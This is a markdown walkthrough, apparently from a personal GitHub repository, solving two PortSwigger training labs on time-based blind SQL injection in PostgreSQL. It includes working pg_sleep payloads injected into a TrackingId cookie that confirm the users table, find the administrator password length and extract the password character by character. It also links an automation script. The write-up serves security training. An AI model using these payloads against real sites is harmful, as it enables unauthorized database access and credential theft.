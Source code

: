 # Blind SQL injection-Time Based
## Summary
- [Lab13: Blind SQL injection with time delays]()
- [Lab14: Blind SQL injection with time delays and information retrieval]()

### Lab13: Blind SQL injection with time delays
- We will resort to the time delay in the server response if our techniques in conditional responses have failed.
- So we will make an injected query to cause a time delay in the response of the server and monitor the time taken for the server to respond.
- If you tried all the syntax of the databases to trigger the time delay, The `pg_sleep()` function of the `PostgreSQL` will succeed. 
- We will trigger a time delay of 10 seconds.
```
TrackingId=xyz'|| pg_sleep(10)--
TrackingId=xyz'||(select pg_sleep(10))--
```
**- Here, we notice the server has taken more time to respond.**

![lab13_delay.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab13_delay.png)

----------------------------------------------------------------------

### Lab14: Blind SQL injection with time delays and information retrieval
- In the first, we will try to trigger a time delay in the server response.
- We will try to detect the type of database by trying all syntaxes of the databases.
- Check out the` conditional time delays` from the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

```
TrackingId=xyz'||(select pg_sleep(10))--
```
- After trying and testing, you will know It's a `PostgreSQL` database.
- In the previous labs we used the conditional response and the conditional errors, but now we will use the conditional time delays, also using the `CASE` statement or the `WHERE` clause.
- If our condition will be `True`, evaluate the action of delay, otherwise don't evaluate it.
- We will confirm if the `users` table exists or not.
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
TrackingId=xyz'||(select pg_sleep(10) from users)--
```
- These are forms to verify that the `administrator` exists in the `users` table.
- You can try any of these payloads.

```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
TrackingId=xyz'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--
TrackingId=xyz'||(SELECT pg_sleep(10) FROM users WHERE username='administrator')--
```
- Now we need to know the password length of the administrator.
- You can use the intruder to brute force for the length and monitor the time of responses received.
```
TrackingId=xyz'||(SELECT CASE WHEN (LENGTH(password)=20 AND username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)=20 THEN pg_sleep(10) ELSE pg_sleep(0) END from users where username='administrator')--
TrackingId=xyz'||(SELECT pg_sleep(10) FROM users WHERE username='administrator' AND LENGTH(password)=20)--
```
- Here, you will notice there is an over-in-time response of `10180 millis`, the delay has been succeeded with a payload of 20, so we have known that the password length is 20 char.

![lab14_password_length.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab14_password_length.png)

- The last phase, we will extract the admin password by retrieving that data as numbers, so we will use two important functions to do that:
	- `ASCII`, which returns the [ASCII](https://upload.wikimedia.org/wikipedia/commons/d/dd/ASCII-Table.svg) code for the input character.
	- `SUBSTRING` (or SUBSTR in Oracle), which returns a substring of its input.
- Check out how these functions work:
	- [SUBSTRING()](https://www.w3schools.com/sql/func_mysql_substring.asp)
	- [ASCII()](https://www.w3schools.com/sql/func_mysql_ascii.asp)

```
TrackingId=xyz'||(SELECT pg_sleep(10) FROM users WHERE username='administrator' AND ASCII(SUBSTRING(password,1,1))=111)--
TrackingId=xyz'||(SELECT CASE WHEN ASCII(SUBSTRING(password,1,1))=111 THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```
- But we need to try the ASCII numbers for each char so we will brute-forcing for 20 chars.
- You will do the attack for these 2 positions: 
>ASCII(SUBSTR(password,`$1-20$`,1))=`$ASCII_numbers$`
- You can do that by using an intruder in the burp suite but it will take a long time to finish.
- We can write a python script to extract the password automatically.
- You can see my script from here:[SQLi_lab14_admin_password.py](https://github.com/Sec0gh/python-scripts/blob/main/Blind%20SQLi%20scripts/SQLi_lab14_admin_password.py)
- To run the script:
```
$ python3 SQLi_lab14_admin_password.py "Target_URl"
```
- Finally, we got the admin password.

![lab14_admin_password.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab14_admin_password.png)
